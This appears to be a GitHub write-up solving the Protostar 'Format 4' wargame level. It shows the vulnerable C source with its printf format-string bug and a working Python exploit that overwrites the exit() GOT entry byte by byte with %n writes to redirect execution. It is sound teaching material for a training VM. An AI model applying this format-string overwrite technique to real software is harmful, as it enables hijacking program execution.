 # A-short-solution-to-Protostar-level-Format-4
## the c code
Here's the source code 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```
As you can see the main function calls vuln() which calls fgets to take input in the buffer and the print it via printf() and *then calls the exit function*
Our aim is to redirect the code execution to hello(). This is an easy problem so I will only *very* briefly explain the basic idea behind the soution. 

Since there is a exit call, there is no use of overwriting the return address pointer on the stack.

To redirect the code execution, we simply go to procedure linkage table of the program which will lead us to the exit address on the Global offset table.
Now we exploit the format string exploit to overwrite it. 
Now the usual solutions you will see on internet(like the one on the live overflow website) involve overwriting it in two parts using format specifier %n and some little neat tricks with their modifiers.
But half the hexadecimal address is still a very large number in decimal. We have to print thousands of blank spaces to achieve that overwrite.

What we can do instead is write the address partially in four passes writing 1 byte in each passes. We can significantly reduce the number of printed characters from tens of thousands to a few hundred. 
There will be over flow in each write but that will get overwritten in the next pass and in the 4th pass the overflow will be to the next memory adress (with reference to the script it'll be at EXIT4) but since we care only about 4 bytes it'll work

Note that the code will only run on protostarOS for obvious reasons.

## Here's the actual python code to do so
```
import struct
HELLO = 0x080484b4
EXIT = 0x08049724
EXIT1 = 0x8049725
EXIT2 = 0x8049726
EXIT3 = 0x8049727
EXIT4 = 0x8049728
def pad(s):
   return s+"X"*(512-len(s))

exploit = ""
exploit+= "AAAA"
exploit+= struct.pack("I",EXIT)
exploit+= struct.pack("I",EXIT1)
exploit+= struct.pack("I",EXIT2)
exploit+= struct.pack("I",EXIT3)
exploit+= struct.pack("I",EXIT4)

exploit+= "i%4$155x%5$n%208x%6$n%128x%7$n%260x%8$n"

print pad(exploit)
```
